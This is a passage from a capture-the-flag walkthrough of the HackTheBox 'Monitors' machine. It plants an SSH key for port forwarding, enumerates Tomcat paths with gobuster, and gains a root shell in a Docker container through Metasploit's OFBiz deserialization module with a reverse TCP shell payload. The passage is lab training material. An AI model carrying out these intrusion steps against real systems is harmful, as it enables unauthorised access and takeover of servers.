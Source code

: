 ```
LISTEN        0               128                                   *:80                                *:*
```

We see something running on port 8443, likely a web server. We want to check it out so we put put an SSH key in marcus' `authorized_keys` and SSH port forward.

```sh
$ ssh -i id_rsa marcus@monitors.htb -L 8443:localhost:8443 -N
```

Looking at the web page, we see that we're running Apache Tomcat/9.0.31. Running `gobuster` ...

```
/images               (Status: 302) [Size: 0] [--> /images/]
/content              (Status: 302) [Size: 0] [--> /content/]
/common               (Status: 302) [Size: 0] [--> /common/]
/catalog              (Status: 302) [Size: 0] [--> /catalog/]
/marketing            (Status: 302) [Size: 0] [--> /marketing/]
/ecommerce            (Status: 302) [Size: 0] [--> /ecommerce/]
/ap                   (Status: 302) [Size: 0] [--> /ap/]
/ar                   (Status: 302) [Size: 0] [--> /ar/]
/ebay                 (Status: 302) [Size: 0] [--> /ebay/]
/manufacturing        (Status: 302) [Size: 0] [--> /manufacturing/]
/passport             (Status: 302) [Size: 0] [--> /passport/]
/example              (Status: 302) [Size: 0] [--> /example/]
/bi                   (Status: 302) [Size: 0] [--> /bi/]
/accounting           (Status: 302) [Size: 0] [--> /accounting/]
/webtools             (Status: 302) [Size: 0] [--> /webtools/]
/tomahawk             (Status: 302) [Size: 0] [--> /tomahawk/]
/facility             (Status: 302) [Size: 0] [--> /facility/]
/http%3A%2F%2Fwww     (Status: 400) [Size: 804]
/myportal             (Status: 302) [Size: 0] [--> /myportal/]
/sfa                  (Status: 302) [Size: 0] [--> /sfa/]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 804]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 804]
/http%3A%2F%2Fblog    (Status: 400) [Size: 804]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 804]
/bluelight            (Status: 302) [Size: 0] [--> /bluelight/]
```

We find by visiting the found directories that we have OFBiz running. Looking up "ofbiz" in metasploit gives us a couple of exploit, of which I found `exploit/linux/http/apache_ofbiz_deserialization` to work, though I did have to change the payload to be `linux/x86/shell/reverse_tcp` and set `forceexploit` to `true`. Running the exploit should give as a shell as root. However, there's no `root.txt` in `/root`. Checking `/` ...

```sh
root@cd94ed83e4af:/root# ls -la /
ls -la /
total 11840
drwxr-xr-x   1 root root     4096 Sep 16 04:56 .
drwxr-xr-x   1 root root     4096 Sep 16 04:56 ..
-rwxr-xr-x   1 root root        0 Sep 16 04:56 .dockerenv
drwxr-xr-x   1 root root     4096 Apr  9 07:55 bin
drwxr-xr-x   2 root root     4096 Jul 10  2020 boot
drwxr-xr-x   5 root root      340 Sep 16 04:56 dev
drwxr-xr-x   1 root root     4096 Sep 16 04:56 etc
drwxr-xr-x   2 root root     4096 Jul 10  2020 home
drwxr-xr-x   1 root root     4096 Apr  9 07:55 lib
drwxr-xr-x   2 root root     4096 Sep  8  2020 lib64
-rw-r--r--   1 root root  1094968 Jan 13  2021 linux-headers-4.15.0-132-generic_4.15.0-132.136_amd64.deb
-rw-r--r--   1 root root 10937008 Jan 13  2021 linux-headers-4.15.0-132_4.15.0-132.136_all.deb
drwxr-xr-x   2 root root     4096 Sep  8  2020 media
drwxr-xr-x   2 root root     4096 Sep  8  2020 mnt
drwxr-xr-x   2 root root     4096 Sep  8  2020 opt
```
